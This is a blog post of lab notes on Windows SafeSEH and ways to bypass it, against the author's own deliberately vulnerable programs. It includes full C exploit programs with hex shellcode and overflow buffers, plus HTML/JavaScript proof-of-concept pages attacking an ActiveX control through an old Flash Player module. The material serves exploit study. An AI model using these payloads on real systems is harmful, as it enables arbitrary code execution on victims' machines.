





Source: [Moeomu's blog](/posts/exploit-learning-notes-013-safeseh-introduction-and-simple-attacks/)

## SafeSEH Introduction

### Work

- Check if the exception handling chain is located in the current program's stack. If it is not in the current stack, the program will terminate the exception handling function call.
- Check if the exception handler pointer points to the current program's stack. If it points to the current stack, the program will terminate the exception handler call.
- After the first two checks are passed, the program calls a brand new function `RtlIsValidHandler()` to verify the validity of the exception handling function, and this function does the following
  - Determine if the address of the exception handling function is in the memory space of the loaded module, if it belongs to the memory space of the loaded module, the validation function will perform the following checks in turn.
    - Determine whether the program has set the `IMAGE_DLLCHARACTERISTICS_NO_SEH` flag. If this flag is set, exceptions within this program will be ignored. So when this flag is set, the function returns the checksum failure directly.
    - Detects if the program contains a security `S.E.H` table. If the program contains the safety `S.E.H` table, the current exception handling function address is matched with this table, and a successful match returns a check success, a failed match returns a check failure.
    - Determine whether the program sets the `ILonly` flag. If this flag is set, it means that the program contains only the .NET compiled intermediate language and the function directly returns a checksum failure.
    - Determine if the address of the exception handling function is located on a non-executable page. When the address of the exception handler is on a non-executable page, the check function will check whether `DEP` is enabled or not, and return a successful check if the system does not enable `DEP`, otherwise the program throws an access violation exception.
  - If the address of the exception handling function is not included in the memory space of the loaded module, the check function will directly perform `DEP` related detection, and the function will perform the following checks in turn.
    - Determine if the address of the exception handling function is located on a non-executable page (non-executable page). When the address of the exception handling function is located on the non-executable page, the check function will check whether `DEP` is on or not, if the system is not on `DEP`, the check will return to success, otherwise the program throws an access violation exception.
    - Determine whether the system allows jumping to execute outside the memory space of the loaded module, if it does, then return the validation success, otherwise return the validation failure.

> Flowchart of `RtlIsValidHandler()` function detection


### Feasibility analysis

- Exception handling function is located outside the memory range of the load module and DEP is closed
- The exception handling function is located within the memory range of the load module, the corresponding module is not SafeSEH enabled (the SafeS.E.H table is empty), and the corresponding module is not pure IL
- The exception handling function is located in the memory range of the loaded module, the corresponding module is SafeSEH enabled (the SafeS.E.H table is not empty), and the address of the exception handling function is included in the SafeS.E.H table

> Ultimate solution: arrange the shellcode in the heap area, even if SEH verification is not feasible it will still be called

---

## Bypass SEH in the heap

### Code

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
;

char overflowcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xE0\xFF\x12\x90"
"\x08\x3E\x39\x00" // address of shellcode in heap ;
;

void test(char * input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0;
	zero = 1 / zero;
}

void main()
{
	char* buf = (char *)malloc(500);
	strcpy(buf, shellcode);
	test(overflowcode);
}
```

### Description

- Put shellcode into the heap area
- Stack overflow, overwriting the SEH chain address to the shellcode address in the heap area
- Call SEH and subsequently trigger shellcode automatically

> Note: pay attention to the 0 case, string copy is encountering 0 cutoff

## Bypass SafeSEH by using a module that is not SafeSEH enabled

### Code

```cpp
// SEH_NOSafeSEH_JUMP.DLL
# include <windows.h>

BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
  return TRUE;
}

void jump()
{
  __asm
  {
    pop eax
    pop eax
	  retn
  }
}

// SEH_NOSafeSEH.EXE
#include <stdio.h>
#include <string.h>
#include <windows.h>

char shellcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xEB\x0E\x90\x90" // 220 Byte NOP, retn here, jmp to shellcode
"\x81\x11\x12\x11" // address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90" // to prevent SEH chain stack overfill
// shellocode
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;

DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}

void test(char* input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0; // prevent overfill, palce it to strcpy back

	__try
	{
		zero = 1 / zero;
	}
	__except(MyException()){}
}

int main()
{
	HINSTANCE hInst = LoadLibrary(TEXT("SEH_NOSafeSEH_JUMP.dll")); // load No_SafeSEH module

	char str[200];
	test(shellcode);
	return 0;
}
```

### Experimental ideas

- Use VC6 to compile SEH_NOSafeSEH_JUMP.DLL, so that SEH_NOSafeSEH_JUMP.DLL will not enable SafeSEH, using release mode
- Use VS2008 to compile SEH_NOSafeSEH.EXE, so that SEH_NOSafeSEH.EXE will be SafeSEH enabled, using release mode, and compile with no optimization settings.
- The test function of SEH_NOSafeSEH.EXE has an obvious stack overflow vulnerability, which also requires that there be no zeros in the shellcode
- SEH is overwritten to create a divide by 0 exception, hijacking the exception handling process

### Advance processing

- Since the default loading base address of the DLL compiled by `VC++ 6.0` is `0x10000000`, if it is used as the loading base address of the DLL, the address of the `pop pop retn` instruction in the DLL may contain `0x00`, which will truncate the string when we do strcpy operation and affect the copy of our shellcode, so in order to To facilitate the test we need to reset the base address. Select "Project → Settings" in the top menu, then switch to the "Connections" tab and add `/base:" 0x11120000"` in the "Project Options" input box.

### Problems encountered

- The springboard will jump to the first 4 bytes of the address in the shellcode, so you should put jmp here
- The program compiled by `VS 2008` will press `-2` (`-1` under `VC++ 6.0`) at `Security Cookie+4` when it enters the function containing `__try{}`, and the program will press `-2` (`-1` under `VC++ 6.0`) when it enters the `__try{}` area according to the ` __try{}` block is modified to a different value depending on the position of the `__try{}` block in the function. For example, if there are two ` __try{}` blocks in the function, this value will be modified to `0` when entering the first `__try{}` block, and to `1` when entering the second. If an exception occurs in the `__try{}` block, the program will call the corresponding `__except()` to handle it based on this value, and the value in this position will be modified to `-2` again after the process is finished; if no exception occurs in the `__try{}` block, the value will also be modified back to `-2` when the program leaves the `__try{}` block. 2`. Of course there are other uses for this value in exception handling. We just need to know that our shellcode may be corrupted due to its presence, so we should put eight bytes of `NOP` after the module address as a protection measure.
- There is a four-byte discordance between `retn` back to the stack address space and the shellcode body, so we need to jump to the shellcode and execute

## Bypass SafeSEH by using addresses other than the loaded module

> SafeSEH is enabled by default for all modules

### Springboard

| Address | Disassembly code             |
| ------- | ---------------------------- |
|         | call/jmpdword ptr[esp+0x8]   |
|         | call/jmpdword ptr[esp+0x14]  |
|         | call/jmpdword ptr[esp+0x1c]  |
|         | call/jmpdword ptr[esp+0x2c]  |
|         | call/jmpdword ptr[esp+0x44]  |
|         | call/jmpdword ptr[esp+0x50]  |
|         | call/jmp dword ptr[ebp+0xc]  |
|         | call/jmp dword ptr[ebp+0x24] |
|         | call/jmp dword ptr[ebp+0x30] |
|         | call/jmp dword ptr[ebp-0x4]  |
|         | call/jmp dword ptr[ebp-0xc]  |
|         | call/jmp dword ptr[ebp-0x18] |

### Code

```cpp
#include <stdio.h>
#include <string.h>
#include <windows.h>

char shellcode[] = 
// shellcode start
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
// shellcode end
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90" // will be overfile with 00000000 00000000 by {__try __catch}
"\xE9\x2B\xFF\xFF\xFF\x90\x90\x90" // far jump and nop
"\xEB\xF6\x90\x90" // short jump and nop & return here
"\x0B\x0B\x29\x00" // address of call [ebp+30] in outside memory
;

DWORD MyException(void)
{
	printf("There is an exception");
	getchar();
	return 1;
}

void test(char* input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0;

	__try
	{
		zero = 1 / zero;
	}
	__except(MyException()){}
}

int main()
{
	test(shellcode);
	return 0;
}
```

#### Vulnerability Execution Flow

- Buffer overflow overrides SEH chain to handle addresses outside the module to bypass SafeSEH
- A `call [ebp+0x30]` instruction is found at `0x00290B0B`, which is used as a springboard to jump into the shellcode

Problems faced by ####

- `0x00290B0B` contains byte `0x00`, strcpy copy will terminate when it encounters it

> Solution: 00 can not be missing, let it become the end of shellcode

- The same problem as in the previous section, the program compiled by `VS 2008`, when entering the function containing `__try{}` will be pressed into `-2` at the location of `Security Cookie+4`, it will destroy the shellcode, so we need to skip it, it will overwrite the location code written in, so We need to use the 12 bytes below it to jump to the entrance of the real shellcode, so we need to use two jumps to jump to the entrance, the first jump is to jump to the long jump, and the second long jump is to jump to the shellcode

### Using Adobe Flash Player ActiveX control to bypass SafeSEH

#### Principle

Actually this method is to bypass `SafeSEH` by using the browser version of the `SafeSEH` module which is not enabled. Flash Player ActiveX does not support `SafeSEH` in versions before `9.0.124`, so if we can find a suitable springboard address in this control, we can bypass SafeSEH completely.

- Flash plugin as a module to find the springboard, because it does not have SafeSEH enabled
- We construct code modules that cause stack overflow vulnerabilities
- Constructing a POC html page to call the vulnerable code we constructed
- After our code module overflows and overwrites the SEH chain, it will jump to the Flash code springboard we have prepared
- The shellcode from the Flash code springboard jumps into our stack area
- The exploit is successful

#### code

- Download [IE7-for-XP-x86-Chinese](https://pan.moeomu.com/Tutorial/0Day安全-资料/IE7-WindowsXP-x86-chs.exe) installer
- Download the [Flash Player ActiveX `v9.0.124`](https://pan.moeomu.com/Tutorial/0Day安全-资料/flashplayer9r124_winax.exe) installer
- Create an MFC ActiveX control, I packaged a copy of the project I created here [download](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX_SEH_SRC.zip)
- Detailed setup diagram


- Use Unicode character set, disable compile optimization option, use MFC in static library, compile with release version

```cpp
void CVulnerAX_SEHCtrl::test(LPCTSTR str)
{
	//AFX_MANAGE_STATE(AfxGetStaticModuleState());
	// TODO: 在此添加调度处理程序代码
	printf("moeomu"); //定位该函数的标记
	char dest[100];
	sprintf(dest, "%s", str);
}
```

- UUID of `CVulnerAX_SEHCtrl's class information` in `VulnerAX_SEH.idl`: `ACA3927C-6BD1-4B4E-8697-72481279AAEC`

#### Other steps

- Register the control: `Regsvr32 path \ control name.ocx`
- Once registered we can call our function from the web page in the following way

```html
<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	test.test("testest");
</script>
```

#### Trigger vulnerability

##### Constructing POC pages

```html
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
<param name="movie" value="1.swf" />
<param name="quality" value="high" />
<embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260">
</embed>
</object>

<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test">
</object>

<script>
	var shellcode = "";
	var s = "\u9090";
	while (s.length < 54)
	{
		s += "\u9090";
	}
	s += "\u3001\u3008";
	s += shellcode;
	test.test(s);
</script>

</body>
</html>
```

#### Analysis

- As shown in the figure, the address `0x01DCF4FC` pointed by ecx is the starting address of the overflow string, and the closest exception function address to the top of the stack is located at `0x01DCF610`, which is calculated to fill `0x114` which is 276 bytes to cover the exception handling function address, and the 277th-280th bytes can be placed in the springboard

  
  
  

- Using the `OllyFindAddr` plugin's `Overflow return address->Find CALL/JMP[EBP+N]` option to find the instruction, this experiment found the `CALL [EBP+0xC]` of `0x300B2D1C` as a springboard, as shown in the figure



- According to the previous calculation put the springboard address into the shellcode corresponding location, save the POC page, test change the function as follows

```js
<script>
	var s = "\u9090";
	while (s.length < 138)
	{
		s += "\u9090";
	}
	s += "\u2D1C\u300B";
	test.test(s);
</script>
```

- It is said in the book that at this time the trigger except 0 exception will be transferred to the shellcode springboard, but it seems that the operation is not written in advance, so again compile the plug-in, in the test function to add except 0 operation
- At this point, the successful break at the springboard, the EBP register value is `0x01DCF150`, according to the springboard instructions will jump to the springboard address before the 4 bytes, where you can add a jump, and shellcode to the back, as follows

```x86asm
01DCF60C   /EB 06           jmp short 01DCF614			; jump
01DCF60E   |90              nop
01DCF60F   |90              nop
01DCF610   |1C 2D           sbb al,0x2D					; addr
01DCF612   |0B30            or esi,dword ptr ds:[eax]	; addr
01DCF614   \90              nop							; shellcode payload start
```

- The final test function is shown below

```js
<script>
	var s = "\u9090";

	while (s.length < 136)
	{
		s += "\u9090";
	}

	s += "\u06EB\u9090";
	s += "\u2D1C\u300B";
	s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";

	test.test(s);
</script>
```

- Successfully executed as shown


